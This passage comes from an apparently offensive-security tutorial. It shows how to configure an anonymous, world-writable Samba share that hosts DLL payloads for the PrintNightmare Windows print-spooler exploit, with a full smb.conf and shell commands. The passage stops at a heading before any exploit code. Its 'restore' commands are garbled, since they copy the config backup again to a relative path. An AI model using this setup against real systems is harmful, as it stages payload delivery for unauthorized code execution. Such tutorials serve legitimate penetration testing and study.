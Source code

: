 To restore the smb.conf and stop the service run

```bash
task restore_samba
```

Otherwise use the steps below

### Host Dll

Make a backup of your smb.conf

```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
```

Overwite the file with the following content

```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /home/user/Documents/printnightmare/payloads/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody
```

Ensure the files are owned by nobody

```bash
sudo chown nobody:user -R /home/user/Documents/printnightmare/payloads/
sudo chmod -R 777 /home/user/Documents/printnightmare/payloads/
```

Restart the smbd service

```bash
sudo service smbd restart
```

{{% notice warning %}}
Don't forget to restore the SMB config and disable the service :)
{{% /notice %}}

```bash
sudo cp /etc/samba/smb.conf etc/samba/smb.conf.bak
sudo service smbd stop
```

## Outflanks implementation
